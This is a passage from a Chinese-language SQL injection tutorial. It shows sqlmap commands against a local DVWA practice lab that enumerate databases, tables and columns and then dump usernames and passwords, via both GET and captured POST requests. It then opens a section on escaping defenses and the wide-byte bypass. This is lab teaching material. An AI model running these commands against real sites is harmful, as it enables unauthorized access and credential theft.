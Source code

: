 - 查询所有的数据库名

  ```shell
  sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' --dbs
  ```

- 查询指定数据库的所有表名信息

  ```shell
  sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa --table
  ```

- 查询指定表名下的所有列名信息

  ```shell
  sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users --column
  ```

- 查询指定数据

  ```shell
  sqlmap -u "http://192.168.75.100/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie 'security=low; PHPSESSID=ni3gsltihh60r1q50tiu45l8p3' -D dvwa -T users -C user,password --dump
  ```

### post数据注入

使用 SQLMap 自动完成 POST 注入，需要把正常 POST 包的内容复制到一个 txt 文档，再调用文档来进行注入。

先使用 Burpsuite 拦截正常 POST 包，右键 - 选择 Copy to file 复制到 /root/post.txt

<img src="https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/15618182311836.jpg" alt="img" style="zoom: 33%;" />

然后关闭 Burpsuite 的代理功能，再使用命令 `sqlmap -r /root/post.txt --dbs`，来查询数据库名称。

<img src="https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/15618184176609.jpg" alt="img" style="zoom:33%;" />

使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa --table`，查询表名

使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa -T users --columns`，查询字段名

使用 SQLMap 命令 `sqlmap -r /root/post.txt -D dvwa -T users -C user,password --dump`，查询用户名和密码内容

## 8. SQL注入防护

### 字符转义

addslashes()、魔术引号开关、mysql_real_escape_string

<u>会对单引号、双引号、反斜线、NULL加上一个一个反斜线进行转义</u>，会影响SQL注入语句中的路径信息。

**绕过方法**：

宽字节（待转义字符前加上%df）、

### 整数过滤
